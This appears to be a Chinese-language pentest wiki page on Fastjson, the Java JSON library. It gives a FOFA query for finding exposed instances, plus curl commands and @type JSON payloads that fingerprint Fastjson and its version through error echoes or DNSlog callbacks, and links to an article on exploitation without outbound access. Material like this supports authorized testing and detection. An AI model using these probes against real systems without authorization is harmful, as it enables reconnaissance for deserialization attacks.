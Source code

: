 ## 应用简介

Fastjson是阿里巴巴公司开源的一款JSON解析库，可用于将Java对象转换为其JSON表示形式，也可以用于将JSON字符串转换为等效的Java对象。

它采用一种“假定有序快速匹配”的算法，把JSON Parse的性能提升到极致，是目前Java语言中最快的JSON库。Fastjson接口简单易用，已经被广泛使用在缓存序列化、协议交互、Web输出、Android客户端等多种应用场景。

## 相关资产

FOFA

```http
app="Fastjson"
```

## 识别方法

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显

```bash
curl http://192.168.2.133:32768/ -H "Content-Type: application/json" --data '{{"@type":"java.net.URL","val":"mx2guq.dnslog.cn"}:0'
```

```bash
#payload
{"a":"
{{"@type":"java.net.URL","val":"dnslog"}:0
```

```
#匹配特征
http.code=500 && "Internal Server Error" in body
```

还可以通过DNS回显的方式检测后端是否使用Fastjson

```bash
curl http://x.x.x.x:8090/ -H "Content-Type: application/json" --data '{{"@type":"java.net.URL","val":"dnslog"}:0'
```

1.2.67版本前

```
{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"}}
```

1.2.67版本后payload

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
```

## 环境搭建

https://www.runoob.com/w3cnote/fastjson-intro.html

https://www.cnblogs.com/hei-zi/p/13274272.html

## 不出网利用

[@flashine {fastjson 不出网利用总结}](https://mp.weixin.qq.com/s/LZt-I3s0dQ_bK9ubEix8iQ)